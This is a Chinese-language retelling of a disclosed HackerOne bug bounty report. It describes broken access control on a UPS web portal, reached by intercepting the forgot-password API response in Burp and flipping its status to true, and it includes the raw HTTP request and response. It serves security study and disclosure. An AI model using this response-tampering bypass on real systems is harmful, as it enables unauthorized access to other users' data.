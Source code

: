 
https://hackerone.com/reports/1539426

声明：文章中涉及的程序(方法)可能带有攻击性，仅供安全研究与教学之用，读者将其信息做其他用途，由用户承担全部法律及连带责任，文章作者不承担任何法律及连带责任。


## 背景
nayefhamouda于2022年4月份提交的这个权限相关的漏洞:
白帽小哥发现可以越权访问团队管理面板;

## 复现步骤
1.登陆 connectnb.ups.com：

2.进入`https://connectnb.ups.com/Layout/forgotPassword`，输入任何电子邮件地址，拦截请求:
```
POST /api/Account/SendTempPassword/?userName=admin@admin.com HTTP/2
Host: connectnb.ups.com
Cookie: __RequestVerificationToken=ZSZXAd3wrj6GSWF1seZAIWIUPQiK4spv-xbaxR_3HxFgJnaSGKr7xXlb9iHYEUQVloknAoTtK5DmWtjdP7yVT7MQ6Z2JW3d5kK2qoxDAbas1
Content-Length: 0
Sec-Ch-Ua: " Not A;Brand";v="99", "Chromium";v="99", "Google Chrome";v="99"
Accept: application/json, text/plain, */*
Sec-Ch-Ua-Mobile: ?0
User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/99.0.4844.82 Safari/537.36
Sec-Ch-Ua-Platform: "Linux"
Origin: https://connectnb.ups.com
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: cors
Sec-Fetch-Dest: empty
Accept-Encoding: gzip, deflate
Accept-Language: en-GB,en-US;q=0.9,en;q=0.8,ar;q=0.7
```
3.在burp里面，拦截此请求的响应并将其中的status更改为 true
```
HTTP/2 200 OK
Cache-Control: no-cache,no-cache,no-store
Pragma: no-cache,no-cache
Content-Type: application/json; charset=utf-8
Expires: -1
Server: 
X-Content-Type-Options: nosniff
X-Xss-Protection: 1; mode=block
Referrer-Policy: no-referrer
Strict-Transport-Security: max-age=31536000; includeSubDomains;preload
X-Frame-Options: DENY
X-Ua-Compatible: IE=Edge
Content-Security-Policy: script-src 'self'; object-src 'self'; frame-ancestors 'none'
Expect-Ct: enforce, max-age=7776000, report-uri='https://connectnb.ups.com/'
Access-Control-Allow-Headers: Accept, Content-Type, Origin
Access-Control-Allow-Methods: GET, POST, PUT, DELETE, OPTIONS
Date: Wed, 13 Apr 2022 05:09:59 GMT
Content-Length: 89

{"status":true,"errorMessage":"Username does not exist. Please enter correct Username."}
```
4.然后，转到这个路径/resetPassword。您会注意到这个页面已经打开，没有问题:
![图](../images/broken.png)

发现可以越权查看用户或报告信息了;

这小哥挺有才华的,一边poc的时候还一边唱着rap   =====》==
链接: https://pan.baidu.com/s/1dMwwD3oU0Ahv5G3e1oJE9w  密码: 6j3v


